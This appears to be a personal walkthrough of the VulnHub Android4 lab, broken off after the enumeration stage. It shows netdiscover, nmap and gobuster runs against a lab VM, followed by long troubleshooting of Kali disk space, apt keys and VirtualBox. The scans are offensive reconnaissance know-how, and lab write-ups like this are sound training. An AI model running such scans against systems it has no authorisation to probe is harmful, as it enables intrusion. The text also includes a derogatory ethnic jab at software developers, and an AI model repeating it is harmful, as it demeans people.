#Android


### [VulnHub - Machine Information Page - Android4](https://www.vulnhub.com/entry/android4-1,233/)

### [YouTube - Android 4: 1 || VulnHub Complete Walkthrough](https://www.youtube.com/watch?v=Bze_Xprx9EE)


---


# Installation 🔌💻🖥️🛜💾🔌

Since the file is a `.ova` we can import the application in VirtualBox

Set the network adapter to Host Only Adapter

we should be ready to boot up the machine




---
---

# Enumeration

## netdiscover & nmap


```bash
# sudo netdiscover -i eth1 -r 192.168.56.0/24
 Currently scanning: Finished!   |   Screen View: Unique Hosts                                                
                                                                                                              
 3 Captured ARP Req/Rep packets, from 3 hosts.   Total size: 180                                              
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.56.2    08:00:27:20:39:2c      1      60  PCS Systemtechnik GmbH                                     
 192.168.56.33   0a:00:27:00:00:07      1      60  Unknown vendor                                             
 192.168.56.36   08:00:27:be:26:21      1      60  PCS Systemtechnik GmbH                                     

                                                                                                               
# nmap -sC -sV 192.168.56.36 -p- 
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV 192.168.56.36 -p-             
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-11-01 11:51 CET
Nmap scan report for 192.168.56.36
Host is up (0.029s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT      STATE SERVICE  VERSION
5555/tcp  open  freeciv?
8080/tcp  open  http     PHP cli server 5.5 or later
|_http-title: Deface by Good Hackers
22000/tcp open  ssh      Dropbear sshd 2014.66 (protocol 2.0)
| ssh-hostkey: 
|_  521 46:13:43:49:24:88:06:85:6c:75:93:73:b5:1d:8f:28 (ECDSA)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 213.62 seconds

```

We can confirm that the following ports are available
- 5555/TCP - freeciv - lol, lmao even, this is Sid Meier's Civilization?
- 8080/TCP - HTTP - PHP cli server 5.5 or later
- 22000/TCP - SSH - Dropbear sshd 2014.66 (protocol 2.0)

The port number are kind of interesting, also one of the reason i just scan for all ports as default, the amount of time isn't that big of a difference.


Let's check the website, look for clues, source code and robots.txt and maybe even sitemap.xml

Well... That was anti climatic... I get:
`An error occurred during a connection to 192.168.56.36:8080. PR_END_OF_FILE_ERROR`

What if I remove the ´s´ in https?

We got a page with a  message! *Deface by good Hackers*


There was no robots.txt


## GoBuster

```bash
# gobuster dir -u http://192.168.56.36:8080/ -w /usr/share/wordlists/dirb/common.txt -x php,txt,html  
# gobuster dir -u http://192.168.56.36:8080/ -w /usr/share/wordlists/dirb/common.txt  
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://192.168.56.36:8080/ -w /usr/share/wordlists/dirb/common.txt  
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.56.36:8080/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================

Error: the server returns a status code that matches the provided options for non existing urls. http://192.168.56.36:8080/33de749c-ebac-42b2-bcbc-0c158c215bd3 => 200 (Length: 461). To continue please exclude the status code or the length

```

## SMBClient

```bash
# smbclient -L 192.168.56.34
```


---
---


### Side Quest - Disk Problem 🚧⚠️💽💾⚠️🚧

Because of the port 5555/TCP - freeciv which can be communicated with adb (Android data bridge)... I personally got a problem with my setup... I need to download it, but it seems that disk space is too low to do ``sudo apt update/upgrade`` 😬

Do I really have to reinstall Kali linux with a bigger harddrive? Or can I somehow increase the size without any trouble?

### [How to expand disk on Kali Linux (VMware)](https://www.youtube.com/watch?v=NwpzYlfKnrY)

#### Disk Before
```bash
┌──(kali㉿kali)-[~]
└─$ lsblk
NAME   MAJ:MIN RM  SIZE RO TYPE MOUNTPOINTS
sda      8:0    0   34G  0 disk 
├─sda1   8:1    0   33G  0 part /
├─sda2   8:2    0    1K  0 part 
└─sda5   8:5    0  975M  0 part [SWAP]
sr0     11:0    1 1024M  0 rom


┌──(kali㉿kali)-[~]
└─$ df -h
Filesystem      Size  Used Avail Use% Mounted on
udev            3.0G     0  3.0G   0% /dev
tmpfs           619M  1.1M  618M   1% /run
/dev/sda1        33G   30G  1.3G  96% /
tmpfs           3.1G  4.0K  3.1G   1% /dev/shm
tmpfs           5.0M     0  5.0M   0% /run/lock
tmpfs           1.0M     0  1.0M   0% /run/credentials/systemd-journald.service
tmpfs           1.0M     0  1.0M   0% /run/credentials/systemd-udev-load-credentials.service
tmpfs           1.0M     0  1.0M   0% /run/credentials/systemd-tmpfiles-setup-dev-early.service
tmpfs           1.0M     0  1.0M   0% /run/credentials/systemd-sysctl.service
tmpfs           1.0M     0  1.0M   0% /run/credentials/systemd-tmpfiles-setup-dev.service
tmpfs           3.1G   12K  3.1G   1% /tmp
tmpfs           1.0M     0  1.0M   0% /run/credentials/systemd-tmpfiles-setup.service
tmpfs           1.0M     0  1.0M   0% /run/credentials/getty@tty1.service
tmpfs           619M  124K  619M   1% /run/user/1000
  
```

gparted


So basically this is the steps:
- Detach the storage unit in VirtualBox
- Then go to `File` => `Tools` => `Virtual Media Manager (Ctrl + D)`
- Increase the size of the drive. I went from 34GB => 70GB just in case, I don't want to do this more often than necessary.
- Re-attach the disk to the machine.
- The machine is still not using the new available space, so we have to do some janky movement of the partitions of the disk `gdeparted`
	- First we deactivate the linux swap file. `swapoff`
	- now we can increase the size of the extended `/dev/sda2 - resize`
	- Now we "Move" the swapfile to the very right/end of the disk by dragging it
	- Do the same with extended, but remember to set the type to `cylinder`'
	- If everything is correct you should have `4 operations pending` - now appy these changes




#### Disk After
```bash
┌──(kali㉿kali)-[~]
└─$ lsblk
NAME   MAJ:MIN RM  SIZE RO TYPE MOUNTPOINTS
sda      8:0    0   70G  0 disk 
├─sda1   8:1    0   69G  0 part /
├─sda2   8:2    0    1K  0 part 
└─sda5   8:5    0  974M  0 part [SWAP]
sr0     11:0    1 1024M  0 rom  

┌──(kali㉿kali)-[~]
└─$ df -h
Filesystem      Size  Used Avail Use% Mounted on
udev            3.0G     0  3.0G   0% /dev
tmpfs           619M  1.0M  618M   1% /run
/dev/sda1        68G   30G   36G  46% /
tmpfs           3.1G  4.0K  3.1G   1% /dev/shm
tmpfs           5.0M     0  5.0M   0% /run/lock
tmpfs           1.0M     0  1.0M   0% /run/credentials/systemd-journald.service
tmpfs           1.0M     0  1.0M   0% /run/credentials/systemd-udev-load-credentials.service
tmpfs           1.0M     0  1.0M   0% /run/credentials/systemd-tmpfiles-setup-dev-early.service
tmpfs           1.0M     0  1.0M   0% /run/credentials/systemd-sysctl.service
tmpfs           1.0M     0  1.0M   0% /run/credentials/systemd-tmpfiles-setup-dev.service
tmpfs           3.1G   12K  3.1G   1% /tmp
tmpfs           1.0M     0  1.0M   0% /run/credentials/systemd-tmpfiles-setup.service
tmpfs           1.0M     0  1.0M   0% /run/credentials/getty@tty1.service
tmpfs           619M  124K  619M   1% /run/user/1000
```



### Side Quest - Updating Kali Linux - Long time no ``sudo apt update/upgrade``

Honestly it has been ages since the last time I have done a ``sudo apt update/upgrade``

Yeah... I get some crazy errors, Jesus Christ...



Alright... I ate 13 chicken legs and a soda for brunch... I am honestly too tired for technical bullshit right now... let's have a break and do some research 🫠🙃😩😭

### [🎶🎵 One Step Forward and Two Steps Back 🎵🎶](https://www.youtube.com/watch?v=ydmHfVLFLCM)


# [How to Fix Update and Upgrade Issues in Kali Linux](https://ultahost.com/knowledge-base/fix-update-upgrade-issues-kali-linux/)


#### Side Quest Update - GPG Key Issue 🔑🗝️

Alright, it seems to be a "classic GPG (GNU Privacy Guard) key issue". 
It basically means your system doesn’t trust the Kali repository anymore because the signing key changed or got lost.


```bash
┌──(kali㉿kali)-[~]
└─$ sudo apt update      
[sudo] password for kali: 
Get:1 http://kali.download/kali kali-rolling InRelease [34.0 kB]
Err:1 http://kali.download/kali kali-rolling InRelease
  The following signatures couldn't be verified because the public key is not available: NO_PUBKEY ED65462EC8D5E4C5
1567 packages can be upgraded. Run 'apt list --upgradable' to see them.
Warning: An error occurred during the signature verification. The repository is not updated and the previous index files will be used. GPG error: http://kali.download/kali kali-rolling InRelease: The following signatures couldn't be verified because the public key is not available: NO_PUBKEY ED65462EC8D5E4C5
Warning: Failed to fetch http://http.kali.org/kali/dists/kali-rolling/InRelease  The following signatures couldn't be verified because the public key is not available: NO_PUBKEY ED65462EC8D5E4C5
Warning: Some index files failed to download. They have been ignored, or old ones used instead.
                                                                                                                                                  
┌──(kali㉿kali)-[~]
└─$ sudo apt-key adv --keyserver keyserver.ubuntu.com --recv-keys ED65462EC8D5E4C5
[sudo] password for kali: 
Warning: apt-key is deprecated. Manage keyring files in trusted.gpg.d instead (see apt-key(8)).
Executing: /tmp/apt-key-gpghome.ulVDz4IruT/gpg.1.sh --keyserver keyserver.ubuntu.com --recv-keys ED65462EC8D5E4C5
gpg: key ED65462EC8D5E4C5: public key "Kali Linux Archive Automatic Signing Key (2025) <devel@kali.org>" imported
gpg: Total number processed: 1
gpg:               imported: 1

```

```bash
# Alternative approach
┌──(kali㉿kali)-[~]
└─$ curl -fsSL https://archive.kali.org/archive-key.asc | sudo gpg --dearmor -o /usr/share/keyrings/kali-archive-keyring.gpg
File '/usr/share/keyrings/kali-archive-keyring.gpg' exists. Overwrite? (y/N) y

# let's make sure and check the URL in the sources.list
# it should be something like ONE of this
deb http://http.kali.org/kali kali-rolling main non-free contrib
deb http://http.kali.org/kali kali-rolling main contrib non-free non-free-firmware

```

#### "It just works! ~ Todd Howard"

```bash
┌──(kali㉿kali)-[~]
└─$ sudo apt update                                                               
[sudo] password for kali: 
Get:1 http://kali.download/kali kali-rolling InRelease [34.0 kB]
Get:2 http://kali.download/kali kali-rolling/main amd64 Packages [20.9 MB]
Get:3 http://kali.download/kali kali-rolling/main amd64 Contents (deb) [52.2 MB]
Get:4 http://kali.download/kali kali-rolling/contrib amd64 Packages [114 kB]
Get:5 http://kali.download/kali kali-rolling/contrib amd64 Contents (deb) [252 kB]                                                 Get:6 http://kali.download/kali kali-rolling/non-free amd64 Packages [188 kB]                                                      Get:7 http://kali.download/kali kali-rolling/non-free amd64 Contents (deb) [896 kB]                                                Get:8 http://kali.download/kali kali-rolling/non-free-firmware amd64 Packages [11.3 kB]
Get:9 http://kali.download/kali kali-rolling/non-free-firmware amd64 Contents (deb) [28.4 kB]
Fetched 74.7 MB in 9s (8044 kB/s)                                                                                                                         
2272 packages can be upgraded. Run 'apt list --upgradable' to see them.
```



*A few "minutes" later*



Well... New problem, I cannot copy/paste between my host computer and the virtual machine...
I might as well update VirtualBox, I have version 7.1.8 and the newest version is now 7.2.4

The UI has definitely changed right? I think the dark theme is a notch more black than before?




- Install - VirtualBox 7.2.4 Extension Pack




Haha.... WTF....

```
VM Name: 🖤 The Real Kali 🖤

Failed to load R0 module C:\Program Files\Oracle\VirtualBox/VMMR0.r0: SUP_IOCTL_LDR_OPEN failed (VERR_LDR_IMPORTED_SYMBOL_NOT_FOUND).
Failed to load VMMR0.r0 (VERR_LDR_IMPORTED_SYMBOL_NOT_FOUND).
Result Code:
E_FAIL (0x80004005)
Component:
ConsoleWrap
Interface:
IConsole {6ac83d89-6ee7-4e33-8ae6-b257b2e81be8}

```

# 💩💩💩💩 LORT!!!!!!!!!!!!! 💩💩💩💩

```
VM Name: Android4

Failed to load R0 module C:\Program Files\Oracle\VirtualBox/VMMR0.r0: SUP_IOCTL_LDR_OPEN failed (VERR_LDR_IMPORTED_SYMBOL_NOT_FOUND).
Failed to load VMMR0.r0 (VERR_LDR_IMPORTED_SYMBOL_NOT_FOUND).
Result Code:
E_FAIL (0x80004005)
Component:
ConsoleWrap
Interface:
IConsole {6ac83d89-6ee7-4e33-8ae6-b257b2e81be8}

```


### VERR_LDR_IMPORTED_SYMBOL_NOT_FOUND

### Failed to load VMMR0.r0


[GitHub - Bug: Failed to Load VMMR0.r0 Module After Upgrading to VirtualBox 7.2.4](https://github.com/VirtualBox/virtualbox/issues/310)

[GitHub - Bug: VERR_LDR_IMPORTED_SYMBOL_NOT_FOUND error trying to load VMMR0.r0 after upgrading VirtualBox from 7.2.2 to 7.2.4](https://github.com/VirtualBox/virtualbox/issues/303)

[GitHub - Bug: Machines cannot be started with builds published after 7.2.3-170541](https://github.com/VirtualBox/virtualbox/issues/260)

*It seems like Version 7.2.4 is unstable compared to 7.2.2 good job Oracle! Test your own freaking software you... Actual Indians* 😤😡🤬


Alright...
- I uninstalled VirtualBox completely
- REBOOT/Restart (This should be a important detail compared to just shut down, then power on)
- Install VirtualBox 7.2.4 again
- VirtualBox Extension Pack 7.2.4 is still installed
- I can run Android 4 and Kali Linux again! Thank God! ✝️

But I still cannot copy-paste between host and the virtual machine... I guess I need to run some commands on the machine itself?
##### [How to install VirtualBox Guest Additions on Kali Linux](https://www.youtube.com/watch?v=9up2oPu-hkA)

```bash
# Step 1. Before installing VirtualBox Guest Additions on Kali Linux we need to install some required packages. So open the terminal and run the following command.
sudo apt install linux-headers-$(uname -r) build-essential dkms
# Or try this alternative
# Ohh the pain and struggle of actually writing commands instead of copy-paste into the terminal!
sudo apt update 
sudo apt install -y linux-headers-$(uname -r)


# Step 2. Install Guest Additions using virtual box. In order To install VirtualBox Guest Additions on Kali Linux virtual machine, Got to VirtualBox - select the Devices from VirtualBox host application menu - click Insert Guest Additions CD image.


# Step 3.
# We cannot change the permission with chmod of the files of the CD...
# Copy the files into a new folder
# Change chmod, I don't mind 777 it's a lucky number
chmod 777 VBoxLinuxAdditions.run
# Run it as sudo just in case...
sudo ./VBoxLinuxAdditions.run
./VBoxLinuxAdditions.run


┌──(kali㉿kali)-[~/Downloads/NewFolder]
└─$ ls -l
total 41988
-r--r--r-- 1 kali kali    1049 Aug 11 20:04 AUTORUN.INF
drwxrwxr-x 2 kali kali    4096 Nov  2 10:19 NT3x
drwxrwxr-x 2 kali kali    4096 Nov  2 10:19 OS2
-r--r--r-- 1 kali kali     718 Oct 17 12:20 TRANS.TBL
-r--r--r-- 1 kali kali 2206720 Oct 17 12:06 VBoxDarwinAdditions.pkg
-r-xr-xr-x 1 kali kali    4225 Oct 17 12:06 VBoxDarwinAdditionsUninstall.tool
-r-xr-xr-x 1 kali kali 2908187 Oct 17 12:00 VBoxLinuxAdditions-arm64.run
-r-xr-xr-x 1 kali kali 6666247 Oct 17 11:55 VBoxLinuxAdditions.run
-r--r--r-- 1 kali kali 9565696 Oct 17 12:01 VBoxSolarisAdditions.pkg
-r-xr-xr-x 1 kali kali 8693920 Oct 17 12:19 VBoxWindowsAdditions-amd64.exe
-r-xr-xr-x 1 kali kali 5052160 Oct 17 12:18 VBoxWindowsAdditions-arm64.exe
-r-xr-xr-x 1 kali kali 6760856 Oct 17 12:18 VBoxWindowsAdditions-x86.exe
-r-xr-xr-x 1 kali kali 1074904 Oct 17 11:56 VBoxWindowsAdditions.exe
-r-xr-xr-x 1 kali kali    7114 Oct 17 11:54 autorun.sh
drwxrwxr-x 2 kali kali    4096 Nov  2 10:19 cert
-r-xr-xr-x 1 kali kali    5097 Oct 17 11:54 runasroot.sh
-r--r--r-- 1 kali kali     261 Mar 10  2023 windows11-bypass.reg
                                                                                                                                                           
┌──(kali㉿kali)-[~/Downloads/NewFolder]
└─$ chmod 777 VBoxLinuxAdditions.run
                                                                                                                                                           
┌──(kali㉿kali)-[~/Downloads/NewFolder]
└─$ ls -l                           
total 41988
-r--r--r-- 1 kali kali    1049 Aug 11 20:04 AUTORUN.INF
drwxrwxr-x 2 kali kali    4096 Nov  2 10:19 NT3x
drwxrwxr-x 2 kali kali    4096 Nov  2 10:19 OS2
-r--r--r-- 1 kali kali     718 Oct 17 12:20 TRANS.TBL
-r--r--r-- 1 kali kali 2206720 Oct 17 12:06 VBoxDarwinAdditions.pkg
-r-xr-xr-x 1 kali kali    4225 Oct 17 12:06 VBoxDarwinAdditionsUninstall.tool
-r-xr-xr-x 1 kali kali 2908187 Oct 17 12:00 VBoxLinuxAdditions-arm64.run
-rwxrwxrwx 1 kali kali 6666247 Oct 17 11:55 VBoxLinuxAdditions.run
-r--r--r-- 1 kali kali 9565696 Oct 17 12:01 VBoxSolarisAdditions.pkg
-r-xr-xr-x 1 kali kali 8693920 Oct 17 12:19 VBoxWindowsAdditions-amd64.exe
-r-xr-xr-x 1 kali kali 5052160 Oct 17 12:18 VBoxWindowsAdditions-arm64.exe
-r-xr-xr-x 1 kali kali 6760856 Oct 17 12:18 VBoxWindowsAdditions-x86.exe
-r-xr-xr-x 1 kali kali 1074904 Oct 17 11:56 VBoxWindowsAdditions.exe
-r-xr-xr-x 1 kali kali    7114 Oct 17 11:54 autorun.sh
drwxrwxr-x 2 kali kali    4096 Nov  2 10:19 cert
-r-xr-xr-x 1 kali kali    5097 Oct 17 11:54 runasroot.sh
-r--r--r-- 1 kali kali     261 Mar 10  2023 windows11-bypass.reg
                                                                                                                                                           
┌──(kali㉿kali)-[~/Downloads/NewFolder]
└─$ sudo ./VBoxLinuxAdditions.run        
[sudo] password for kali: 
Verifying archive integrity...  100%   MD5 checksums are OK. All good.
Uncompressing VirtualBox 7.2.4 Guest Additions for Linux  100%  
VirtualBox Guest Additions installer
Removing installed version 7.1.4 of VirtualBox Guest Additions...
